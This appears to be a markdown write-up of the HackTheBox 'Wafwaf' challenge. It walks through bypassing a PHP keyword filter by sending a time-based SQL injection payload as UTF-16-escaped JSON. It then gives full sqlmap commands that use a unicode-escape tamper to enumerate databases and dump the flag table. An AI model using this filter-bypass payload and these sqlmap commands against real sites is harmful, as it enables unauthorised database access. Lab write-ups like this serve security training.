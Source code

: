 # bugbase_task2
## Wafwaf hackthebox

<img src="Picture1.png">


<p>&nbsp;</p>  


On entering the ip in the browser.

<img src="Picture2.png">
<p>&nbsp;</p>

it looks somewhat a php code

there is a sql database and the input of POST requests are filtered using the function *waf*.

<img src="Picture3.png">

- The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**

<img src="Picture4.png">

Once the request is captured, we will send it to the repeater



<img src="Picture5.png">

after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 to json decode.

(https://www.branah.com/unicode-converter)

<img src="Picture11.png">



load the payload.

<img src="Picture12.png">





now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```

<img src="Picture13.png">

# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**


<img src="Picture6.png">

We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**


<img src="Picture7.png">

db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag

<img src="Picture10.png">


